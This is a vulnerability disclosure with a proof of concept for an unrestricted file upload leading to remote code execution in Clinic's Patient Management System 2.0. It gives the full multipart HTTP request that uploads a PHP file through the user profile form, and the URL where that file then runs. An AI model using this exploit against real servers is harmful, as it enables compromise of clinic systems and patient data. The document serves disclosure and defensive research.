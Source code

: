 #### Title: Clinic's Patient Management System 2.0 Unrestricted file upload (RCE)
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/Unrestricted%20file%20upload%20(RCE)/POC.md
#### Description：
##### At the file upload function, the application system checks the validity of the file type, format, and content uploaded by the user, so that attackers can upload Webshell (.php, .jsp, asp, etc.) malicious script files or files in unexpected formats, such as: HTML files, SHTML files, etc., at the same time, you can use characters such as directory jump or control the upload directory to directly upload files to the Web directory or any directory, which lead to the execution of arbitrary malicious script files on the remote server, thereby directly obtaining application system permissions.


#### Payload used:
`<?php phpinfo();?>`

### POC
```
POST /pms/update_user.php?user_id=1 HTTP/1.1
Host: localhost
Content-Length: 828
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHTbuuF5mdaA9K4Fw
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/pms/update_user.php?user_id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=kbnmikgfhdo4qe7crgidipoqc9
Connection: close

------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="hidden_id"

1
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="display_name"

Administrator
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="profile_picture"; filename="rce.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryHTbuuF5mdaA9K4Fw
Content-Disposition: form-data; name="save_user"


------WebKitFormBoundaryHTbuuF5mdaA9K4Fw--
```

#### Access below URL:
`http://localhost/pms/user_images/1656897223rce.php`

![image](https://github.com/CyberThoth/CVE/blob/e447fdac9a76f3b5f97a8adb5d4343425fd61f0a/CVE/Clinic's%20Patient%20Management%20System/Unrestricted%20file%20upload%20(RCE)/1.png)

